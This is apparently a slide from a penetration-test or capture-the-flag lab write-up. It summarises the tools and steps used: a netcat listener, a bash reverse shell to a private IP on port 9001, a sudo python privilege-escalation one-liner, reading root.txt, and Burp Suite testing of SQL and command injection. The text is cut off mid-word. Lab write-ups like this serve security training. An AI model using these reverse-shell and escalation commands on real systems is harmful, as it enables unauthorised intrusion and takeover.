

# Cont..
Netcat (`nc`):
Used to set up a reverse shell listener: nc -nlvp 9001
Reverse Shell Payload:
Bash reverse shell executed via RCE:
     bash -c 'bash -i >& /dev/tcp/192.168.139.139/9001 0>&1'
Privilege Escalation:
Exploited `sudo` rights with Python:
     script -qc "sudo python3 -c 'import os; os.system(\"/bin/bash\")'"
Flag Capture:
`cat root.txt` – post-escalation flag access
Operating System / Platform:
Kali Linux – The primary penetration testing platform used throughout the assessment, equipped with pre-installed tools and a secure environment for exploitation.
Web Application Testing:
Burp Suite – Used for intercepting, modifying, and analyzing HTTP requests and responses during web application exploitation. Assisted in testing and crafting SQLi payloads for id parameter. Helped verify command injection via the cmd paramete